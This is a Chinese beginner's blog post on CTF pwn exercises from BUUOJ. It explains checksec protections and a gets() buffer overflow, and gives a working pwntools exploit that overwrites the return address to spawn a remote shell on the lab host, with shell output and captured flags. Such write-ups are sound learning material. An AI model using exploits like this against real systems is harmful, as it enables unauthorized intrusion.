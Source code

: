 ```yaml
---
title: 【CTF】pwn学习之路
date: 2025-05-21
description: 小白初试pwn，会学会吗。。
slug: pwnpwnpwn
image: cover.jpg
tag: 
    - CTF
    - 网络安全
    - pwn
    - 逆向
categories: 
    - 网络安全

---
```


初学者。。用于记录学习过程与笔记。

## test_your_nc

先用`checksec`检查下：

![checksec1](1-1.png)

1. **RELRO**  
   `Partial` → GOT 表可写（易被 `GOT overwrite` 攻击）。`Full` 时 GOT 只读更安全。

2. **STACK CANARY**  
   `未启用` → 栈溢出无检测，可直接覆盖返回地址。启用后栈破坏会崩溃。

3. **NX**  
   `开启` → 栈/堆不可执行。

4. **PIE**  
   `开启` → 代码地址随机化，需泄露地址。关闭则地址固定。

5. **RPATH/RUNPATH**  
   `未设置` → 无额外库路径，降低劫持风险。

6. **Symbols**  
   `64` → 保留符号（函数名等），易逆向分析。

7. **FORTIFY**  
   `未启用` → 无堆栈保护。

再拖到`IDA Pro`里看看:

![ida1](1-2.png)

````c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  system("/bin/sh");
  return 0;
}
````

直接调用`system()`函数进入shell，所以直接使用`netcat`连接靶机：

````bash
nc ip port
````

![nc1](1-3.png)

发现直接连接上了，根目录就有flag，得到：`flag{b6588539-d35f-4fde-b2b9-8c56d7fb66bd}`

## rip

`checksec`分析：

````bash
❯ checksec --file=./pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable   FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   64 Symbols        No    0               1    ./pwn1

````

`IDA Pro`分析主函数：

````c

int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
````

同时注意到`fun()`函数：

````c
int fun()
{
  return system("/bin/sh");
}
````

`gets()`函数不检查输入长度，所以可利用其来溢出`s`，到达shellcode也就是`fun()`。

````asm
.text:0000000000401186
.text:0000000000401186 ; Attributes: bp-based frame
.text:0000000000401186
.text:0000000000401186 ; int fun()
.text:0000000000401186                 public fun
.text:0000000000401186 fun             proc near
.text:0000000000401186 ; __unwind {
.text:0000000000401186                 push    rbp
.text:0000000000401187                 mov     rbp, rsp
.text:000000000040118A                 lea     rdi, command    ; "/bin/sh"
.text:0000000000401191                 call    _system
.text:0000000000401196                 nop
.text:0000000000401197                 pop     rbp
.text:0000000000401198                 retn
.text:0000000000401198 ; } // starts at 401186
.text:0000000000401198 fun             endp
````

注意到shellcode位于`40118A`，所以我们要让其执行这个地址的命令。

那么如何溢出呢？首先要填满`s[15]`，也就是15个字节，与此同时，还需要添加8个字节来顶掉保存字节`push rbp;`：

> 每个函数调用都会在栈上保存前一个函数的RBP值
> 这个保存操作占用固定的8字节空间
> 在缓冲区溢出攻击中，这8字节是覆盖返回地址前必须越过的最后一个屏障
> x86架构是4字节，x64架构是8字节 → 这是64位系统的关键特征

所以构建payload：

````python
payload = b'q'*23 + p64(0x40118A)
````

先发送23个q使其溢出，后面接上shellcode`fun()`中终端函数的地址，尝试进入shell。


> `p64()` 是 Python 中 **pwntools** 库的核心函数，用于将整数转换为**64位小端序字节序列**。在 pwn 漏洞利用中，它用于精确构造内存地址格式的 payload。

最终程序：

````python
from pwn import *

host = "node5.buuoj.cn"
port = 25983
sh = remote(host, port)
payload = b'q'*23 + p64(0x40118A)
sh.sendline(payload)
sh.interactive()
````

详解：

新建一个`sh`对象，用于连接靶机以及操作靶机；

> **remote()函数**：pwntools的核心函数，用于创建TCP连接

`sendline()`向靶机发送payload;

> **sendline()**：发送数据并在末尾自动添加 `\n`（0x0A）
> 重要：因为原程序使用 `gets()` 函数，该函数以 `\n` 或 EOF 为结束标志

**发送内容**：

````
qqqqqqqqqqqqqqqqqqqqqqq + \x8A\x11\x40\x00\x00\x00\x00\x00 + \n
````

执行，获取到了shell，获得flag：

````
PS C:\Users\root> & "D:/Program Files/python/python.exe" d:/CTF/项目/BUU/pwn/rip/hack.py
[x] Opening connection to node5.buuoj.cn on port 25983
[x] Opening connection to node5.buuoj.cn on port 25983: Trying 117.21.200.176
[+] Opening connection to node5.buuoj.cn on port 25983: Done
[*] Switching to interactive mode
ls

bin
boot
dev
etc
flag
home
...
var
cat flag
`flag{7f35d897-a5fd-4505-84a7-2990b740f2d9}`
````